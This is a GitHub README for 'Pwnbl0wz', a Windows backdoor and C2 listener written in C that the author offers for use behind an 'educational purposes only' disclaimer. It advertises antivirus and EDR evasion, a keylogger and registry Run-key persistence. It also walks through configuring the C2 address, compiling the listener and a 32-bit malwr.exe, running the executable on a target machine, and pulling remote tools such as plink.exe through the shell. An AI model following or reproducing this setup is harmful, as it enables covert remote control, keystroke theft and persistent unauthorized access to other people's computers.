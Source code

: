# Pwnbl0wz

<p align="left">
  <a href="#Installation" target="_blank"><img alt="undefined" src="https://img.shields.io/badge/Installation-red?style=for-the-badge"></a>
  <a href="#Configuration" target="_blank"><img alt="undefined" src="https://img.shields.io/badge/Configuration-blue?style=for-the-badge"></a>
  <a href="#Usage" target="_blank"><img alt="undefined" src="https://img.shields.io/badge/Usage-green?style=for-the-badge"></a>
</p>

### EDUCATIONAL PURPOSES ONLY! I AM NOT RESPONSIBLE FOR ANY HARM CAUSED BY PWNBL0WZ
>Fully Undetectable Windows backdoor w/ C2 Listener written in 100% C
>This project is still in development by me, maybe soon enough if i have time ill finish it 100%
<br><br>
<img src="https://i.imgur.com/AeXvJQj.png"></img>


<br>

**Features:**
- 100% FUD (Win defender/Malwarebytes/Kaspersky)
- 100% FUD WITHOUT USING ENCRYPTION
- COULD BE XOR ENCRYTPED
- C2-Listener has encrypted datastream
- Backdoor Compatible with cryptcat
- EDR/Firewall Evasion
- Inbuild Keylogger 
- Persistence through HKEY_CURRENT_USER

 ``HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run``
 
 <br><br>
 
 #### Commands C2 server
| Command   | Description                                                                    |
| --------- | ------------------------------------------------------------------------------ |
| `hodlme`  | Creates Persistency through registry key                                       |
| `cd`      | Allows you to change directories in the buffer                                 |
| `startkey`| Activates a keylogger which logs every keystroke                               |
| `q`       | Close and quits session                                                        |
| `download`| Download file to client from HTTP Server (coming soon)                         |
| `cleanme` | Clears logs left behind of backdoor and deletes itself (coming soon)           |


<br><br>
> The C2 listener works only on linux machines since i use ``bzero();`` 
> but could be used on windows if u uncommented

> ``/* #define fuqbillgatez(p, size) (void) memset((p), 0, (size)) */`` i made, you would need to implement the fuqbillgatez function.
<br><br>
<br>

#### Installation (c2 server)

**Step 1**
``git clone https://github.com/EmirhanSarikaya/Pwnbl0wz.git``

**Step 2**
``cd Pwnbl0wz``

**Step 3**
>Configurate the C2 address and C2 port in the source code and set to specified IP addy

```
C2_addr.sin_addr.s_addr = inet_addr("1.3.3.7"); // ip-addy of C2 server
C2_addr.sin_port = htons(1337); // C2 server port listener
```
**Step 4**
Use gcc to compile the c2.c file.
``gcc c2.c -o c2``

<br><br><br>


#### Configuration (Pwnbl0wz backdoor)

**Step 1**
``cd Pwnbl0wz``

**Step 2**
>Configurate the C2_IP and C2_PORT in the sourcecode to the address of the C2 listener you've set earlier.

```
C2_IP = "1.3.3.7"; // c2 ip addy here
C2_port = 1337;    // c2 listener port
```

**Step 3**
>Now after you've set the IP addy and port for C2 you can compile using MINGW for 32-bit
>Reason we are compiling for 32-bit is so it can be executed on both 32/64-bit machines

``i686-w64-mingw32-gcc -o malwr.exe malwr.c -lwsock32 -lwininet``

**Now you are ready 2 rock! :)**

<br><br>


### Usage backdoor and C2-Listener

1) The C2-listener has some commands that i've coded like hodlme, download ect..
2) Open the malware.exe that you've compiled using MINGW on the target machine
3) You should get a connection on the C2 server, from this point on you can travel through the shell on the system
4) You could also execute commands like ``download https://x.com/plink.exe`` or other commands you like. 




<br><br>
# LEGAL DISCLAIMER
ME (EMIRHAN SARIKAYA) HAS NOTHING TO DO WITH WHAT HAPPENS USING THIS BACKDOOR, I JUST CREATED THIS FOR EDUCATIONAL PURPOSES ONLY AND WONT USE IT FOR MALICIOUS PURPOSES, THEREFORE ANY DAMAGE OR HARM CREATED BY PWNBL0WZ HAS NOTHING TO DO WITH ME. I AM NOT RESPONSIBLE AND DO NOT CONDONE THIS TOOL FOR MALICIOUS PURPOSES!
